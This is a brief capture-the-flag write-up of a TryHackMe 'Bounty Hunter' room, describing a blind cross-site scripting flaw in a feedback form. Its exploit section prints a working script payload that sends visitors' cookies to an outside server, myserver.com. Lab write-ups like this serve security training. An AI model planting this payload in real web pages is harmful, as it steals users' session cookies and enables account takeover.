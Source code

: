 # TryHackMe – Bounty Hunter (Blind XSS)

## Overview
This room simulated a bug bounty scenario involving input sanitization failures.

## Exploit
Discovered a blind XSS vulnerability in a feedback form:

```html
<script>new Image().src="http://myserver.com?cookie="+document.cookie</script>

